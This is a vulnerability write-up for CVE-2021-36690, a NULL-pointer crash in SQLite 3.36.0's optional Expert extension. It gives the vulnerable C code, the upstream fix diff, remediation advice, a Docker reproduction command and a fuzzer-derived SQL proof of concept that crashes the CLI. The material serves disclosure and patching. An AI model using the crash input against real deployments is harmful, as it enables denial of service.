


# CVE-2021-36690 CWE-None SQLite segment error

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.
- **Expert Extension:** A tool/module for automatic index suggestion: It imports the user's database schema and SQL statements into a temporary database, simulates query planner behavior, collects usage of clauses like WHERE/ORDER BY, generates candidate indexes, tests their effectiveness, and ultimately provides optimization suggestions.

## Vulnerability Mechanism
**Scope note:** This bug is in the experimental SQLite Expert extension used by the CLI's `.expert` command, not in the core SQLite library or standard library builds. The CVE record also notes that a CLI user already has authority to execute commands, so the vendor disputes the broader security relevance.

Expert extends the call `sqlite3_table_column_metadata()` to get the default collation rule for columns when collecting table/column meta information. When the return value is **NULL** and the code does not check for null, using `strlen`/`memcpy` causes NULL-deref and triggers segment errors

## Vulnerability Location
The vulnerability is located in the `ext/expert/sqlite3expert.c::idxGetTableInfo()` of SQLite 3.36.0. This function reuses variable `zCol`: first save column names, then use the same pointer address as the collation output parameter for `sqlite3_table_column_metadata()`. For columns without explicit/parsable sorting rules, the API can return NULL; The next two `STRLEN(zCol)` and the second round `memcpy()` were not missed.

```c
const char *zCol = (const char*)sqlite3_column_text(p1, 1);
nByte += 1 + STRLEN(zCol);
rc = sqlite3_table_column_metadata(
    db, "main", zTab, zCol, 0, &zCol, 0, 0, 0
);
nByte += 1 + STRLEN(zCol);       /* zCol may now be NULL */

/* The same pattern is repeated while copying metadata. */
nCopy = STRLEN(zCol) + 1;
memcpy(pCsr, zCol, nCopy);
```

Fixed the issue of separating column name `zCol` from sorting rule `zColSeq` and using `"binary"` as the default value when `zColSeq == 0`. This not only preserves the column names needed for subsequent queries but also eliminates NULL dereferences.

## Remediation

Upgrade to SQLite 3.37.0 or later, or use a vendor build containing check-in `b1e0c22ec981cf5f`. The fix keeps the column name in `zCol`, stores the collation returned by `sqlite3_table_column_metadata()` in a separate `zColSeq` pointer, and substitutes `"binary"` when no collation name is returned. Both size calculation and copying therefore operate on a valid string.

If the SQLite Expert extension cannot be updated, do not run it on attacker-controlled schemas and disable or omit `sqlite3expert` from production builds. The vulnerable code is in the optional expert extension rather than the core SQL engine.

```diff
Index: ext/expert/sqlite3expert.c
==================================================================
--- ext/expert/sqlite3expert.c
+++ ext/expert/sqlite3expert.c
@@ -688,15 +688,17 @@
   int nPk = 0;
 
   rc = idxPrintfPrepareStmt(db, &p1, pzErrmsg, "PRAGMA table_xinfo=%Q", zTab);
   while( rc==SQLITE_OK && SQLITE_ROW==sqlite3_step(p1) ){
     const char *zCol = (const char*)sqlite3_column_text(p1, 1);
+    const char *zColSeq = 0;
     nByte += 1 + STRLEN(zCol);
     rc = sqlite3_table_column_metadata(
-        db, "main", zTab, zCol, 0, &zCol, 0, 0, 0
+        db, "main", zTab, zCol, 0, &zColSeq, 0, 0, 0
     );
-    nByte += 1 + STRLEN(zCol);
+    if( zColSeq==0 ) zColSeq = "binary";
+    nByte += 1 + STRLEN(zColSeq);
     nCol++;
     nPk += (sqlite3_column_int(p1, 5)>0);
   }
   rc2 = sqlite3_reset(p1);
   if( rc==SQLITE_OK ) rc = rc2;
@@ -712,23 +714,25 @@
   }
 
   nCol = 0;
   while( rc==SQLITE_OK && SQLITE_ROW==sqlite3_step(p1) ){
     const char *zCol = (const char*)sqlite3_column_text(p1, 1);
+    const char *zColSeq = 0;
     int nCopy = STRLEN(zCol) + 1;
     pNew->aCol[nCol].zName = pCsr;
     pNew->aCol[nCol].iPk = (sqlite3_column_int(p1, 5)==1 && nPk==1);
     memcpy(pCsr, zCol, nCopy);
     pCsr += nCopy;
 
     rc = sqlite3_table_column_metadata(
-        db, "main", zTab, zCol, 0, &zCol, 0, 0, 0
+        db, "main", zTab, zCol, 0, &zColSeq, 0, 0, 0
     );
     if( rc==SQLITE_OK ){
-      nCopy = STRLEN(zCol) + 1;
+      if( zColSeq==0 ) zColSeq = "binary";
+      nCopy = STRLEN(zColSeq) + 1;
       pNew->aCol[nCol].zColl = pCsr;
-      memcpy(pCsr, zCol, nCopy);
+      memcpy(pCsr, zColSeq, nCopy);
       pCsr += nCopy;
     }
 
     nCol++;
   }
```

## Affected Versions
SQLite 3.36.0 when the optional SQLite Expert extension is present and activated; fixed in SQLite 3.37.0. The core SQLite library is not affected.

## Environment Setup
Start the Docker environment with SQLite version 3.36.0, which enables ASAN memory detection at compile time

```txt
CNA:Google Inc.    Base Score:7.5 HIGH    Vector:CVSS:4.0/AV:L/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:L/SC:N/SI:N/SA:N
```

```txt
cpe:2.3:a:sqlite:sqlite:3.36.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Entering the container command line and running the PoC file, you can see the ASan report shows that `strlen` was passed an empty pointer (NULL) at `idxGetTableInfo`, causing the crash.

```bash
docker exec -it sqlite-3.36.0 sqlite3 test_db ".read CVE-2021-36690-PoC.sql"
```



## PoC Analysis

```sql
-- 1. Basic table and flip-flops
CREATE TEMP TABLE t1(allint);
CREATE TABLE t0(x);
CREATE TRIGGER t02 AFTER DELETE ON t1
  WHEN EXISTS (SELECT 1 FROM t0 WHERE o00.x0 = y5)
  BEGIN
    INSERT INTO t0 VALUES(o00.x);
  END;

-- 2. Generate large amounts of random binary data (commonly used by fuzzers)
CREATE TABLE t1(x PRIMARY KEY);
INSERT INTO t1 VALUES(randomblob(800));
INSERT INTO t1 SELECT randomblob(800) FROM t1;
INSERT INTO t1 SELECT randomblob(800) FROM t1;

-- 3. Some PRAGMA and WAL operations (clips from fuzz output)
PRAGMA cache_size = 10;
PRAGMA journal_mode = WAL;
PRAGMA wal_checkpoint;

-- 4. Meta/extension commands that may trigger the Expert extension path (in sqlite3 CLI)
-- Execute .expert or the related meta command in the sqlite3 CLI to trigger the expertDotCommand path
.expert  
```

## References
[NVD - CVE-2021-36690](https://nvd.nist.gov/vuln/detail/CVE-2021-36690#match-15398974)

[SQLite User Forum: Segmentation fault in idxGetTableInfo](https://sqlite.org/forum/info/78165fa25061742f)

[SQLite: Check-in [b1e0c22ec9\]](https://sqlite.org/src/vinfo/b1e0c22ec981cf5f?diff=2&proof=915820863)
